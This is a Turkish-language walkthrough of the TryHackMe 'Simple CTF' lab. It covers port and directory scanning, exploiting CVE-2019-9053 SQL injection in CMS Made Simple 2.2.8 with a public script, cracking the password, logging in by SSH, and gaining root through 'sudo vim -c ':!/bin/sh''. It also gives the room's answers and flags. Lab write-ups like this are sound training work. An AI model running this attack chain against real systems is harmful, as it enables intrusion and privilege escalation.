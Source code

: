## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/easyctf">Simple CTF</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

* * *

nmap taraması başlatalım:

```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV -p- 10.10.118.25
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-14 01:12 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 01:12
Scanning 10.10.118.25 [4 ports]
Completed Ping Scan at 01:12, 0.10s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:12
Completed Parallel DNS resolution of 1 host. at 01:12, 0.00s elapsed
Initiating SYN Stealth Scan at 01:12
Scanning 10.10.118.25 (10.10.118.25) [65535 ports]
Discovered open port 80/tcp on 10.10.118.25
Discovered open port 21/tcp on 10.10.118.25
SYN Stealth Scan Timing: About 21.89% done; ETC: 01:15 (0:01:51 remaining)
Discovered open port 2222/tcp on 10.10.118.25
SYN Stealth Scan Timing: About 56.59% done; ETC: 01:14 (0:00:47 remaining)
Completed SYN Stealth Scan at 01:14, 92.02s elapsed (65535 total ports)
Initiating Service scan at 01:14
Scanning 3 services on 10.10.118.25 (10.10.118.25)
Completed Service scan at 01:14, 6.20s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.118.25.
Initiating NSE at 01:14
Completed NSE at 01:14, 0.41s elapsed
Initiating NSE at 01:14
Completed NSE at 01:14, 0.36s elapsed
Nmap scan report for 10.10.118.25 (10.10.118.25)
Host is up (0.089s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.41 seconds
           Raw packets sent: 131138 (5.770MB) | Rcvd: 71 (2.852KB)
```

1000 portunun altında kaç hizmet çalışıyor?

- 2

En yüksek portta hangi hizmet çalışıyor?

- ssh

80 portunda websitesi çalışıyor siteyi kontrol edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a1.png?raw=true)

Sıradan ubuntu default sayfası. 

Gobuster çalıştırarak gizli dizin arayalım.

```
┌──(root㉿r3tr0)-[~]
└─# gobuster dir -u http://10.10.118.25/ -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

Gobuster çıktısı:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.118.25/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.118.25/simple/]
```

simple sayfasını buluyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a2.png?raw=true)

Siteyi incelediğimizde CMS Made Simple 2.2.8 versiyonu kullanıldığını görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a3.png?raw=true)


Google'a gidip "CMS Made Simple 2.2.8 exploit" ifadesini aratarak bu sürümle ilgili herhangi bir şey olup olmadığına bakalım.


Sonuçlara baktığımızda, Exploit-DB'de aramamızla eşleşen ve CVE-2019–9053 kullanan bir SQL enjeksiyon saldırısına atıfta bulunan bir sayfa görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a4.png?raw=true)

Uygulamaya karşı kullandığınız CVE nedir?

- CVE-2019-9053


Uygulama ne tür bir güvenlik açığına karşı savunmasızdır?

- SQLi

Exploit'i indirelim ve çalıştıralım.

```
┌──(root㉿r3tr0)-[/home/kali/Downloads]
└─# python3 46635.py
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

Bizden istediği parametreleri girelim.

```
┌──(root㉿r3tr0)-[/home/kali/Downloads]
└─# python3 46635.py -u http://10.10.118.25/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a5.png?raw=true)

Kullanıcı adı ve şifreyi buluyoruz.

Şifre nedir?
- secret

Elde edilen bilgilerle nereden giriş yapabilirsiniz?
- SSH

SSH ile makineye bağlanalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a6.png?raw=true)

user bayrağını alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a7.png?raw=true)

Kullanıcı bayrağı nedir?

- G00d j0b, keep up!

Yetki yükselmeye geçelim. Öncelikle mevcut kullanıcının neyi çalıştırabileceğini görmek için “sudo -l” komutunu çalıştıralım.

```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

“Mitch” kullanıcısının /usr/bin/vim'i şifre olmadan çalıştırabildiğini görüyoruz. Bu bilgilerle GTFOBins'e göz atalım ve bunu privesc için kullanıp kullanamayacağımıza bakalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a8.png?raw=true)

sudo vim -c ':!/bin/sh' komutunu kullanarak yetki yükseltebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/SimpleCTF/images/a9.png?raw=true)

Root bayrağı nedir?

-W3ll d0n3. You made it!

Ve böylece bir ctf daha tamamladık. Gelecek yazılarımda görüşmek üzere.

<img src="/Gif/fsoc.gif" style="width:500px;height:250px;">

